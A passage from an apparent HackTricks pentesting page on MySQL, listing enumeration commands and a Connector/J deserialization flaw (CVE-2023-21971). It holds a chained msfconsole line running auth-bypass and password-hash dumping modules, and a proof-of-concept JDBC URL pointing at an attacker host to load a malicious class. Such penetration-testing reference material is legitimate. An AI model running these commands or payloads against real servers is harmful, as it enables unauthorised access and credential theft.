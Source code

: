 ```
## HackTricks Automatic Commands

```
Protocol_Name: MySql    #Protocol Abbreviation if there is one.
Port_Number:  3306     #Comma separated if there is more than one.
Protocol_Description: MySql     #Protocol Abbreviation Spelled out

Entry_1:
  Name: Notes
  Description: Notes for MySql
  Note: |
    MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mysql.html

Entry_2:
  Name: Nmap
  Description: Nmap with MySql Scripts
  Command: nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse {IP} -p 3306

Entry_3:
  Name: MySql
  Description: Attempt to connect to mysql server
  Command: mysql -h {IP} -u {Username}@localhost

Entry_4:
  Name: MySql consolesless mfs enumeration
  Description: MySql enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS {IP}; set RPORT 3306; run; exit'

```
```
​

## 2023-2025 Highlights (new)

### JDBC `propertiesTransform` deserialization (CVE-2023-21971)
From Connector/J <= 8.0.32 an attacker who can influence the **JDBC URL** (for instance in third-party software that asks for a connection string) can request arbitrary classes to be loaded on the *client* side via the `propertiesTransform` parameter. If a gadget present on the class-path is loadable this results in **remote code execution in the context of the JDBC client** (pre-auth, because no valid credentials are required). A minimal PoC looks like:

```java
jdbc:mysql://<attacker-ip>:3306/test?user=root&password=root&propertiesTransform=com.evil.Evil
```
```
Running `Evil.class` can be as easy as producing it on the class-path of the vulnerable application or letting a rogue MySQL server send a malicious serialized object. The issue was fixed in Connector/J 8.0.33 – upgrade the driver or explicitly set `propertiesTransform` on an allow-list.  
(See Snyk write-up for details)  

### Rogue / Fake MySQL server attacks against JDBC clients
Several open-source tools implement a *partial* MySQL protocol in order to attack JDBC clients that connect outwards:

* **mysql-fake-server** (Java, supports file read and deserialization exploits)
```